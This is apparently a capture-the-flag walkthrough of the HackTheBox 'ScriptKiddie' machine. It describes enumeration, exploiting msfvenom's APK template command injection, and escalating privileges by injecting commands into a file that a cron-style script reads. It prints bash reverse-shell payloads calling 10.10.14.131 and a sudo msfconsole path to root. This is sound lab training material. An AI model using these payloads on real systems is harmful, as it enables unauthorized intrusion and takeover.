 # HackTheBox - ScriptKiddie

## Introduction
<p align="justify">
Hello Friend! You have come a long way following me here. So let me show you how i solved this challenge named <b><u>ScriptKiddie</u></b>. You with me ? Good ! Let's do it.
</p>

### 1. Enumeration
When I joined the machine, I got an *ip_address* of **10.10.10.226**. The first thing i tend to do when i have an *ip_address* is to see if a http website is up and running. So i manually visited the site but got nothing.

Then i fired up my `nmap` scan to see all the active ports it can find.

```bash
nmap -sC -sV 10.10.10.226 -oN recon/nmap_initial
```

I often scan top ports and save its response for future references as well as a quick guide for me. Again i fired up another `nmap` scan to look for all open ports.

```bash
nmap -p- 10.10.10.226 -oN recon/nmap_all_ports
```

I let it run in the background. All ports scan is just for the case not to miss anything.

![](2021-05-07-09-13-35.png)

First `nmap` scan returned me with an output saying there's a `ssh` service running on port *22*. And the interesting thing is there is a `http` service running on port *5000*. `Nmap` also said that this is a ***Werkzeug httpd 0.16.1*** server.

I thought as the title suggests, this box may have a well known vulnerability which should be exploited. So i rushed and searched for **Werkzeug** exploit.

```bash
searchsploit Werkzeug
```

![](2021-05-07-09-19-16.png)

Indeed there is an exploit for **Werkzeug** server leading to *RCE*. I quickly copied the exploit.

```bash
searchsploit -m multiple/remote/43905.py
```

I decided not to be a complete script kiddie and i took a sneak peek at the exploit. I quickly found out that the exploit only works if debug mode is enabled. If the debug mode is enabled, then you will have a */console* page.

```bash
curl http://10.10.10.226:5000/console
```

I saw there wasn't any page called console. Maybe the */console* endpoint is ofuscated, so let's have a fuzzing here

```bash
ffuf -u http://10.10.10.226:5000/FUZZ -w /mnt/hack/wordlist/common.txt
```

![](2021-05-07-09-25-57.png)

I didn't find anything so i concluded that the site does not have debug mode enabled and to our dismay, our exploit for quick *RCE* does not work here. :disappointed:

Let's take a look at the webpage. There are three sections for **Nmap**, **msfvenom** and **searchsploit**. Looking at the website, guess we have lots to try for exploits like *command injection*, *RFI*, *LFI*, *File upload* vuln etc. I did all the tries just to find none of my method worked. I was quite frustrated at that moment.
<br><br>

### 2. Malicious Payload
Then *msfvenom* section of website caught my attention.

![](2021-05-09-22-17-48.png)

I saw that it is executing `msfvenom` to generate exploit and it takes templates. I searched for template injection, and to my surprise there was a well known command injection vulnerability in Metasploit's `msfvenom` payload generator, when using a crafted **APK** file as an android payload template. To trigger this vulnerability, the victim should do following
```bash
msfvenom -p android/<.....> -x
```

I also found a way to generate the malicious template file. I quickly fired up `msfconsole`.

![](2021-05-09-22-29-36.png)

```bash
msf> use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
msf> set lhost <ip_addr>
msf> set lport 8888
msf> set rhosts 10.10.10.226
msf> set rport 5000
msf> exploit
```

This created a template for me to use in website.

Now i fired up `netcat` to listen to the port
```bash
nc -vnlp 8888
```
Then i uploaded the file selecting OS as **android**, *lhost* as my ip and template as my file generated by `msfconsole`.

***Oh yes !!! We got a reverse shell.***

Changing it to interactive shell,
```bash
script -qc /bin/bash /dev/null
```

Exploring the system, We completed our first checkpoint i.e. user flag.

![](2021-05-09-22-41-22.png)

Now our next target is going to be **root** flag. You there with me on this ?
<br><br>

### 3. Privilege Escalation
Now we are logged in as user `kid` in the server and it didn't took us time to find out how we have very low privileges. Exploring the system we find out that there are two users in system `kid` and `pwn`. Looking at files that `pwn` owns, there is a file `scanlosers.sh` which runs `nmap` against a file named `hackers`. Ahh! Our ticket to privilege escalation. I was being a complete **script kiddie** there and fired a netcat listener.

```bash
nc -vnllp 9999
```

I got a reverse shell script which others said worked in this box and fired it
```bash
echo ";/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.131/9999 0>&1' #" >> hackers
```
But to my shock, it didn't work out for me. I tried different way of inserting this payload in the file *hackers*, but neither payload worked nor i saw anything written in the file. I was way to much frustrated and i took a break.

I came back and decided to look at the script *scanlosers.sh*

![](2021-05-09-22-54-12.png)

Now we have all our answers. The script is taking all the thing from third section to the last *( with `cut` operation)* and providing it to `nmap`. Now first our payload must be at third section, and it should break out of `nmap` command to run our provided command. So for testing, let's see if we can create a file

```bash
echo "a b ;/bin/bash -c 'touch random.txt' #" >> hackers
```

![](2021-05-09-22-58-18.png)

Surprise !! We have our file created.

Now our payload works if we craft with two spaces before our previous payload. So our payload becomes like this
```bash
echo "<space><space>;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.131/9999 0>&1' #" >> hackers
```

The actual payload looks like this 
```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.131/9999 0>&1' #" >> hackers
```

![](2021-05-09-23-01-43.png)

Ad we got a reverse shell as `pwn` user.

Checking for permissions that `pwn` user have
```
sudo -l
```
![](2021-05-09-23-03-57.png)

We saw that *pwn* user can run `msfconsole` as root without a password.

```
sudo msfconsole
```
Now using `/bin/bash` we get a shell as root user. We can find the root flag on */root/root.txt*.

![](2021-05-09-23-07-59.png)

***lesson learnt:*** *Never be a script kiddie !!!*